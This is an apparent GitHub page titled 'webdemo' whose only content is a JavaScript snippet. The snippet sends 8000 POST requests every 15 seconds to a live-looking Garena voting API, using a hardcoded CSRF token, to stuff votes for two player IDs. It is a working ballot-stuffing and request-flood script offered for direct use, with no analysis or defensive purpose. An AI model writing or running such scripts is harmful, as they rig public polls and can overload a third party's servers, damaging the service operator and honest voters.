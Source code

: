# webdemo
setInterval(async function(){let promList=[];for(let i = 0; i < 8000;i++){ let prom = fetch('https://binhchon.lienminh.garena.vn/api/vote/create', {method: "POST", headers: { 'X-CSRFToken':  'aZ5fRPch1OJjdHPf26oMFeS69YVh02CbNmMJaj4VcBsgpr0TYStnZE1AwrxCuQbL',
  'Content-Type': 'application/json',
  'token' : undefined}, body: JSON.stringify({player_ids: [18, 22]})});promList.push(prom)}for(let i =0; i < 12000;i++){await Promise.all(promList)}}, 15000)
